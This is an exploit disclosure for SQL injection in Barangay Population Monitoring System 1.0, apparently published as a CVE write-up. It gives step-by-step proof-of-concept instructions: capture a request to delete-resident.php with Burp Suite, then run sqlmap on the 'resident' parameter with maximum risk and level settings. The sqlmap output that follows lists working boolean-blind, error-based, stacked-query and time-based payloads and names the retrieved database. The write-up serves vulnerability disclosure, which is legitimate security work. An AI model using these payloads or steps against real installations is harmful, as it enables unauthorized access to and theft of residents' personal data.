 # Barangay Population Monitoring System - SQL Injection
+ **Exploit Title:**  Barangay Population Monitoring System - SQL Injection
+ **Date:** 2024-19-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17109&title=Barangay+Population+Monitoring+System+Using+PHP%2C+MYSQL+and+Chart.js+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Repoerted, waiting for CVE number

## Description:
Barangay Population Monitoring System 1.0 allows SQL Injection via the 'resident' parameter in "/barangay-population-monitoring-system/endpoint/delete-resident.php?resident=32". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/barangay-population-monitoring-system/masterlist.php"
+ Select any resident and press the delete-resident button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /barangay-population-monitoring-system/endpoint/delete-resident.php?resident=32 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'resident' parameter to dump the database.
```
sqlmap -r r.txt -p resident --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: resident (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: resident=32' RLIKE (SELECT (CASE WHEN (9622=9622) THEN 32 ELSE 0x28 END))-- uydw

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: resident=32' AND EXTRACTVALUE(8632,CONCAT(0x5c,0x71787a6a71,(SELECT (ELT(8632=8632,1))),0x7178707071))-- LFDZ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: resident=32';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: resident=32' AND (SELECT 5502 FROM (SELECT(SLEEP(5)))BuUj)-- jvyg
---
[21:28:15] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[21:28:15] [INFO] fetching current database
[21:28:15] [INFO] retrieved: 'barangay_db'
current database: 'barangay_db'
```
+ current database: `barangay_db`

![Ekran görüntüsü 2024-01-19 053101](https://github.com/BurakSevben/CVEs/assets/117217689/576748ec-bc4c-474b-a324-fb6037ac894a)

